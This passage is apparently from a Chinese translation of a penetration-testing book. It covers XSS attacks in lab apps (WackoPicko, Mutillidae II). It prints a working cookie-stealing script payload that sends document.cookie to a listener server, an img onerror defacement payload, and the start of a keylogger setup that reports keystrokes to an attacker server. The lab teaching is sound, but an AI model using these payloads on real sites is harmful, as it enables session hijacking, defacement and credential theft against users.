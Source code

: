 ```
python -m SimpleHttpServer 8000  
```

服务器运行后，您将利用 OWASP BWA 虚拟机中包含的 WackoPicko web 应用程序中的持久 XSS 进行攻击。浏览到 Kali Linux 中的 WackoPicko，并在留言簿表单中提交带有以下代码的评论：

```
<script>document.write('<img src="http://127.0.0.1:8000/'+document.cookie+' ">');</script> 
```

注意，`127.0.0.1`是 Kali Linux 的本地 IP 地址。应将其替换为设置为接收 cookie 的服务器的地址：

![](../images/00174.jpeg)

每次加载留言簿页面时，它都会执行脚本并尝试从外部服务器获取图像。获取此类图像的请求包括 URL 中的会话 cookie，将记录在接收服务器上，如以下屏幕截图所示：

![](../images/00175.jpeg)

# 网站污损

使用 XSS 破坏网站（改变其视觉外观）并不是一种常见的攻击。尽管如此，这是可以做到的，特别是对于持久性漏洞，并且它可能会对网站被破坏的公司造成严重的声誉损害，即使服务器的文件没有更改。

您可以通过多种方式使用 JavaScript 更改网站的外观。例如，插入诸如`div`或`iframe`之类的 HTML 元素、替换样式值、更改图像源以及许多其他技术都可以改变网站的外观。您还可以使用文档正文的`innerHTML`属性替换页面的整个 HTML 代码。

Mutillidae II 有一个 DOM XSS 测试表单，可以帮助我们进行测试。在菜单中，转到 OWASP 2013 | A3-跨站点脚本（XSS）| DOM 注入| HTML5 存储。此演示应用程序将信息保存到浏览器的 HTML5 存储中，并且它包含许多漏洞。在这里，我们将重点关注一个事实，即当一个元素被添加到存储中时，它会反映关键点，如以下屏幕截图所示：

![](../images/00176.jpeg)

表单有一定程度的消毒，因为`script`标签没有得到反映：

![](../images/00177.jpeg)

在对不同的注入字符串进行一些尝试和错误之后，您会发现一个源不存在的`img`标记（例如，`src`参数）可以工作：

```
<img src=x onerror="document.body.innerHTML='<h1>Defaced with XSS</h1>'"> 
```

将该代码设置为新元素的键并单击“添加新”将显示以下内容：

![](../images/00178.jpeg)

如前所述，这样的攻击不会更改 web 服务器上的文件，只有运行恶意脚本的用户才会注意到这些更改。当攻击持久性 XSS 时，破坏可能会影响大量用户，因为攻击者不需要像反射的和基于 DOM 的 XSS 那样单独攻击每个受害者。无论哪种方式，这都可能导致用户将敏感信息提供给攻击者，同时认为他们正在将其提交给合法网站。

# 关键伐木工人

利用 XSS 收集用户敏感信息的另一种方法是将浏览器转变为键盘记录器，捕获每个击键并将其发送到攻击者控制的服务器。这些按键可能包括用户在页面中输入的敏感信息，如姓名、地址、密码、秘密问题和回答、信用卡信息和其他类型，具体取决于易受攻击页面的用途。

我们将使用预先安装在 Kali Linux 中的 Apache web 服务器，将击键存储在一个文件中，以便在利用 XSS 时检查易受攻击的应用程序发送的密钥。服务器将有两个文件：`klog.php`和`klog.js`。
